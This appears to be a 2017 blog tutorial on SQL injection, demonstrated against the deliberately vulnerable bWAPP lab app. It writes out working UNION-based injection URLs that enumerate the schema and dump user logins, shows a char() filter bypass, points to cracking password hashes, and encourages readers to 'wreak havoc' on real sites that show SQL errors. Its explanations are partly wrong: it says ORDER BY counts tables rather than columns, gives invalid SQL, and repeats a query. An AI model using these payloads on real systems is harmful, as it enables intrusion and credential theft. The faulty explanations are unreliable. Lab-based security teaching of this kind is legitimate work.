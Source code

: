 title: Intro to SQL Injections
date: 2017-05-03
image: sqlinjection.jpg

Structured Query Language (SQL) is used by many developers to insert and retrieve information from a common relational database. Whenever you see a website that does more than just display static information (i.e. letting users make posts or create accounts) it is most likely using a database. Most Wordpress sites run on SQL databases. The standard SQL command looks like this:
```sql
select * users where name='Simeon'
```
This sql statement would simply pull my account information within a web application. In a web application, the developer might dynamically generate a sql statement based on the user input.

Suppose the developer wanted to select users based on your input, the sql statement might look like this:

    select * users where name='+[NAME]+'

The problem with this is that you might try to enter a value to break that sql statement or use it to extract more information from the database than you are entitled to (usernames, passwords, ssn numbers, etc...).

### Let's start with the bwapp SQL Injection (Search/GET) exercise.

You should begin by playing around with the search box and entering various values to see what happens. If you simply press enter, all the movies are returned. However, if you enter a single quote ', you get the following error

    Error: You have an error in your SQL syntax; check the manual that corresponds to your
    MySQL server version for the right syntax to use near '%'' at line 1

This is because you have broken the dynamic sql statement was supposed to be generated from your input. We can assume the SQL statement looked something like this:

    select * from movie where title=' + [YOUR INPUT] + '

I can tell by looking at the url ;). By inputing a single quote, or anything followed by a single quote, you break the sql statement because it now has too many quotes. Suppose you entered "iron man'", then the resulting sql statement would be:

    select * from movie where title='iron man''

That's one quote too many! And sql being picky with syntax has no idea how to interpret that. If you ever get this result on any website, you are clear to wreak havoc (at your own risk, of course).

For this next section, we'll switch from using the input field to messing with the url of the page. This will work because the input is being submitted though a GET request. Go ahead and give it a try! Instead of searching using the input box, just replace everything after the "?title=" in the url with your search term. You should get the same results as using the search box.

###First, we'll try to guess how many tables are in the database!

We can achieve this using sql's ORDER BY command. You can use it like so:

    http://192.168.1.250/bWAPP/sqli_1.php?title=1' ORDER BY 99-- -

First we should recognize that the sql command outputed from like probably looks like:

    select * from movie where title='1' ORDER BY 99-- -

The "-- " is the SQL syntax for commenting. We want to negate anything that comes after our input so we can be sure about the command's behavior.

You should get an error from the command above. Since we will always get an error if we order by more than the number of tables that exist, we can keep trying it with a small number until we no longer get an error. At that point we will know how many tables exist in the database.

If you order order by any number less than 7, you should no longer have an error. Instead, it should say "No movies were found!". Great! Now we can use "union select" command to extract information from other tables. The union select injection only works if we know exactly how many tables exist. It works as follows:

    http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,2,3,4,5,6,7-- -

In this injection, each of the numbers represents a table in the database. If this works, we can replace some of the values to get information about the actual tables. We can use the following to get the of the database:

    http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,@@version,3,4,5,6,7-- -

If you google the resulting version, you can learn more about the database's mechanism and vulnerabilities making your hack job a whole lot easier.

You can also grab the table names in this manner:

    http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,table_name,3,4,5,6,7 from
    information_schema.tables-- -

Note that most of these tables are autogenerated. The user generated tables appear to be "users", "blog", "heroes", "movies", "login". We can probably get some valuable information from these tables. You can similarly grab the column names. Although they aren't labeled by table, you can probably guess which table they belong to.

    http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,column_name,3,4,5,6,7 from
    information_schema.columns-- -

Now if we actually wanted to know, we could simply use a "where" condition to filter these columns.

    http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,column_name,3,4,5,6,7 from
    information_schema.columns where table_name="users"-- -

Now for the exciting part: we can go ahead steal the usernames and passwords

    http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,login,3,4,5,6,7
    from users-- -

    http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,login,3,4,5,6,7
    from users-- -

Once you get the hash of the password, you can simple google it to find to clear text value if it is a simple password. If if is more complicated and a simple search doesn't find it, you can use a hash cracker like [John the Ripper](http://www.openwall.com/john/)

###Bonus!
Suppose we have a sensible developer who eliminates the use of quotes and special characters in the input (because she knows about people like us). We can cheat by using the "char" function to convert our word character by character from numberical values to their ascii representation. You can either use and ascii table or an [ascii to text converter](http://www.unit-conversion.info/texttools/ascii/) to get the value of each character, and have the browser interpret the result using the "char" function. The two commands below should yield the same results.

    http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,column_name,3,4,5,6,7 from
    information_schema.columns where table_name=char(117,115,101,114,115)-- -

    http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,column_name,3,4,5,6,7 from
    information_schema.columns where table_name="users"-- -
